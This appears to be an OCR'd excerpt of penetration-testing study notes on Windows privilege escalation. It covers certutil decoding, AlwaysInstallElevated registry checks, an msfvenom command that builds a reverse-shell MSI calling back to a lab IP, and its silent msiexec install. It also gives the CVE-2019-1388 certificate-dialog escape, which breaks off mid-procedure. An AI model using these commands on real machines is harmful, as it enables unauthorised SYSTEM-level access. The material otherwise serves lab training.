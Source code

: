 ```
        -Decoding File with Certutil

        C:\> certutil -decode encodedfile file2


        A binary such as rundll32.exe can be used to execute a DLL file. We could use this to obtain a reverse shell by executing a .DLL file that we either download onto the remote host or host ourselves on an SMB share.



        -Always Install Elevated

        This setting can be set via Local Group Policy by setting Always install with elevated privileges to Enabled under the following paths.

                Computer Configuration\Administrative Templates\Windows Components\Windows Installer

                User Configuration\Administrative Templates\Windows Components\Windows Installer



        -Enumerating Always Install Elevated Settings

        PS C:\> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

        PS C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer


        -Generating MSI Package

        We can exploit this by generating a malicious MSI package and execute it via the command line to obtain a reverse shell with SYSTEM privileges.

        $ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi

        -Executing MSI Package

        C:\> msiexec /i c:\users\-student\desktop\aie.msi /quiet /qn /norestart




        -CVE-2019-1388

        CVE-2019-1388 was a privilege escalation vulnerability in the Windows Certificate Dialog, which did not properly enforce user privileges. The issue was in the UAC mechanism, which presented an option to show information about an executable's certificate, opening the Windows certificate dialog when a user clicks the link. The Issued By field in the General tab is rendered as a hyperlink if the binary is signed with a certificate that has Object Identifier (OID) 1.3.6.1.4.1.311.2.1.10. This OID value is identified in the wintrust.h header as SPC_SP_AGENCY_INFO_OBJID which is the SpcSpAgencyInfo field in the details tab of the certificate dialog. If it is present, a hyperlink included in the field will render in the General tab. This vulnerability can be exploited easily using an old Microsoft-signed executable (hhupd.exe) that contains a certificate with the SpcSpAgencyInfo field populated with a hyperlink.

        When we click on the hyperlink, a browser window will launch running as NT AUTHORITY\SYSTEM. Once the browser is opened, it is possible to "break out" of it by leveraging the View page source menu option to launch a cmd.exe or PowerShell.exe console as SYSTEM.

        First right click on the hhupd.exe executable and select Run as administrator from the menu.
```